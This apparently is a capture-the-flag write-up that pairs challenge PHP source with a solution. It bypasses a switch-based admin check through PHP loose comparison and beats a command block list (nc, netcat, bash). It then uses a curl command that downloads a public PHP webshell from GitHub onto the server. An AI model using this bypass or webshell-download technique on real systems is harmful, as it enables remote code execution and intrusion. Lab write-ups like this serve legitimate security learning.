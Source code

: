 # solution

```
<?php
include ("./config.php");
include("./config/db_config.php");

$message = "";

if ($_SERVER["REQUEST_METHOD"]=="POST"){
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }

    $username = $data->username;

    if($username === "admin" ){
        exit("no hack");
    }

    switch($username){
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn -> prepare("SELECT * FROM users WHERE username = ? AND password = ?");
            $stmt -> bind_param("ss",$user,$password);
            $stmt -> execute();
            $result = $stmt -> get_result();
            if ($result -> num_rows == 1){
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;
        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");

    }
}
?>
```

```
<?php

include ("./config.php");

$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if($_SESSION["auth"] === "admin"){

    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n","",$command);
    if (preg_match($pattern, $sanitized_command)){
        exit("No hack");
    }
    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
else if($_SESSION["auth"]=== "guest") {

    $command = "echo hi guest";
    $result = shell_exec($command);

}

else {
    $result = "Authentication first";
}
?>
```

Two part of codes we should focus, first of all we need to access to admin's authen. We can take advantage of weak comparison in php's switch function(the problem also see in strcmp() and in_array()).
![alt text](image.png)<br>
So by use json data **{"username": true}** switch will compare "admin"==true (and it true). So we can access in admin role. Accomplish one task, we need to find a way to execute cmdI to find a flag.
After searching and get hints, i know that we can upload a webshell to execute remote code.

```
https://github.com/JohnTroony/php-webshells/blob/master/Collection/Simple-Webshell.php
```

Here is the link but you need to copy url link to raw file.

```
https://github.com/JohnTroony/php-webshells/blob/master/Collection/Simple-Webshell.php
```

Because the server dont filter **curl** we can use this payload.

```
curl-o hack.php https://raw.githubusercontent.com/JohnTroony/php-webshells/master/Collection/Simple-Webshell.php
```

![alt text](image-2.png)<br>
and go to /hack.php
![alt text](image-3.png)<br>

i guess i need to go back to get the flag (from the position of file in zip'file)
![alt text](image-4.png)<br>
Oh let go to /flag dir
![alt text](image-5.png)<br>
